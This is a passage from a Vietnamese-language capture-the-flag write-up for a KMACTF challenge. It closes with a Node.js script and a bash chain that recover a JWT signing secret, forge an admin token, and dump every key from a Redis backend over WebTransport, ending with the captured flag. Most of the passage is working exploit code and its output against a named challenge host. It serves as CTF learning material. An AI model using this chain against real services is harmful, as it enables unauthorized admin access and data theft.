    if (controlValue.type !== 'admin_ready') throw new Error(`Admin auth failed: ${control}`);

    async function command(...args) {
      await writer.write(encodeCommand(args));
      const value = await withTimeout(responses.reply(), `RESP ${args[0]}`);
      console.log('RESP', JSON.stringify({ command: args, value }));
      return value;
    }

    const keys = await command('KEYS', '*');
    const probe = ['flag', 'FLAG', 'secret', 'admin.jwt', 'KMA', 'KMACTF', 'flag.txt'];
    for (const key of probe) {
      try { await command('GET', key); } catch (error) { console.log('PROBE_ERR', key, String(error)); }
    }
    if (process.argv[3] === 'quick') {
      for (const commandArgs of [['TYPE', 'FLAG'], ['HGETALL', 'FLAG'], ['SMEMBERS', 'FLAG'], ['LRANGE', 'FLAG', '0', '-1']]) {
        try { await command(...commandArgs); } catch (error) { console.log('QUICK_ERR', commandArgs, String(error)); }
      }
      return;
    }
    for (const key of (Array.isArray(keys) ? keys : [])) {
      try {
        const type = await command('TYPE', key);
        if (type === 'string') await command('GET', key);
        else if (type === 'hash') await command('HGETALL', key);
        else if (type === 'list') await command('LRANGE', key, '0', '-1');
        else if (type === 'set') await command('SMEMBERS', key);
        else if (type === 'zset') await command('ZRANGE', key, '0', '-1', 'WITHSCORES');
        else if (type === 'stream') await command('XRANGE', key, '-', '+');
      } catch (error) { console.log('KEY_ERR', key, String(error)); }
    }
  } finally {
    try { await withTimeout(writer?.close(), 'stream close', 3000); } catch {}
    try { await withTimeout(transport?.close({ closeCode: 0, reason: 'done' }), 'transport close', 3000); } catch {}
  }
}

await main();
```

</details>

- Mở kết nối WebTransport tới `https://chall.kcsc.vn:9007/admin/redis-cmd` 
- Dùng secret đã khôi phục để forge JWT có `admin: true`, rồi xác thực với `/admin/redis-cmd`
- Sau đó nó gửi lệnh Redis qua WebTransport/RESP để liệt kê key và đọc dữ liệu




\- Sau `admin_ready`, protocol chuyển từ NDJSON sang raw RESP2. Các lệnh đã gửi:

```
KEYS *        -> player:*, game:*, leaderboard:players:v1, và FLAG
TYPE FLAG     -> string
GET FLAG      -> KMACTF{B44PQ0l8dmgYUYvdpnU4}
```

### 6. Full exploit

\- Toàn bộ chain được gói trong một lệnh duy nhất, script tự chạy liền một mạch: collect &rarr; solve state &rarr; recover secret &rarr; forge JWT &rarr; admin Redis, tự retry nếu server restart giữa chừng :

```
bash run_exploit.sh
```

<details>
    <summary>run_exploit.sh</summary>

```
#!/bin/bash
# Full KBB exploit chain, retrying on server restarts.
cd "$(dirname "$0")"
CAPTURE_FILE=${KBB_CAPTURE_FILE:-/tmp/kbb-combined.json}
ADMIN_TIMEOUT=${KBB_ADMIN_TIMEOUT:-45}
for attempt in 1 2 3 4 5; do
  echo "=== attempt $attempt $(date -Is) ==="
  python3 collect_with_token.py > "$CAPTURE_FILE" 2>/tmp/kbb-combined.err || { echo collect-failed; continue; }
  python3 -c "
import json,sys
d=json.load(open('$CAPTURE_FILE'))
assert d['random_count']>50 and d['token'] and not d['errors'], d
print('collected', d['random_count'])
" || continue
  SOLVE=$(python3 solve_state.py "$CAPTURE_FILE" 2>/dev/null)
  echo "solve: $SOLVE"
  OK=$(echo "$SOLVE" | python3 -c "import json,sys;print(json.load(sys.stdin).get('ok'))")
  [ "$OK" = "True" ] || continue
  read S0 S1 CNT < <(echo "$SOLVE" | python3 -c "
import json,sys
d=json.load(sys.stdin)
# s0/s1 are the state immediately before the verified block; advance only
# through that contiguous block, not through samples preceding the block.
print(d['s0'], d['s1'], d['verified_run'])
")
  TOKEN=$(python3 -c "import json;print(json.load(open('$CAPTURE_FILE'))['token'])")
  REC=$(node recover_combined_secret.mjs "$TOKEN" 400000 "$S0" "$S1" "$CNT" 2>/dev/null)
  echo "recover: $REC"
  SECRET=$(echo "$REC" | python3 -c "import json,sys;print(json.load(sys.stdin).get('secret',''))" 2>/dev/null)
  [ -n "$SECRET" ] || continue
  OUT=$(timeout --foreground -k 5 "$ADMIN_TIMEOUT" node admin_redis.mjs "$SECRET" quick 2>&1)
  echo "$OUT"
  if echo "$OUT" | grep -q admin_ready; then
    echo "=== SUCCESS attempt $attempt ==="
    break
  fi
  echo "admin failed, retrying"
done

```

</details>



> KMACTF{B44PQ0l8dmgYUYvdpnU4}
